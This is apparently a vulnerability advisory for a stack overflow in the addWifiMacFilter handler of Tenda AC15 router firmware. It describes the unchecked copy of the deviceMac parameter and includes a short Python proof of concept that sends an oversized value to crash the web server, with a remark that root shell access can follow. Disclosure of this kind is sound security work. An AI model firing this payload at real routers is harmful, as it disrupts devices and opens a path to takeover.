


## Tenda _US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin stack overflow vulnerability

A stack overflow vulnerability in the component /goform/addWifiMacFilter of Tenda AC15V1.0BR_V15.03.05.19 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.tenda.com
- Firmware download address ：https://www.tenda.com.cn/download/detail-2680.html

## 1. Affected version

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter. The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11 and put into the nptr without size checking, resulting in a stack overflow.



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the EMUX(https://github.com/therealsaumil/emux) simulation firmware
2. Attack with the following POC attacks，then web server will crash and reboot

```python
import requests

url = 'http://IP:port/goform/addWifiMacFilter'

headers = {"Cookie": "password=inputyourcookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
print(r.text)
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
